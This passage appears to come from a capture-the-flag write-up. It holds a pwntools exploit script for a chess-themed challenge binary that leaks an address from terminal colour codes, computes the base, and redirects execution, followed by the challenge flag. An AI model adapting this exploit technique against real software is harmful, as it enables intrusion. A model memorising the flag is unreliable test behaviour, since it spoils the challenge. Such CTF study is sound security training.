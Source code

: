     def exploit(r, e):
        # gdb.attach(r)

        r.recvuntil(b"> ")
        r.sendline(b"3")

        r.recvuntil(b"\x1b[100m6 ")

        leak = b""
        for _ in range(8):
            r.recv(2)
            num = r.recv(2)
            r.recv(4)
            substring = r.recv(2)
            if substring != b"  ":
                substring += r.recv(2)
                index = BUF.find(substring)
                source = index >> 2
                if num == b"30":
                    source |= 0x80
                leak += source.to_bytes(1, "little")
            else:
                leak += b"\0"

        leak = int.from_bytes(leak, "little")
        leak_str = f"0x{leak:08x}"
        log.info(f"Leaked address {leak_str}")

        base = leak - 0x1d0d
        base_str = f"0x{base:08x}"
        log.info(f"Base at {base_str}")

        jmp_to = base + 0x1712
        jmp_to_str = f"0x{jmp_to:08x}"
        log.info(f"Jumping to {jmp_to_str}")

        r.recvuntil(b"> ")
        r.sendline(b"1")
        r.sendline(MAGIC_FEN)
        r.sendline(b"1337")
        r.recvline()
        r.sendline(jmp_to_str)
        r.interactive()


    def main():
        parser = argparse.ArgumentParser()
        parser.add_argument("-r", "--remote", action="store_true", dest="remote",
                            help="Run exploit on the remote target.")
        args = parser.parse_args()

        e = ELF(TARGET)
        if args.remote:
            r = remote(*REMOTE)
        else:
            r = process(TARGET)

        exploit(r, e)

    if __name__ == "__main__":
        main()

Flag:
`sun{https://github.com/apple-oss-distributions/Chess/blob/Chess-319/Sources/MBCBoard.mm}`
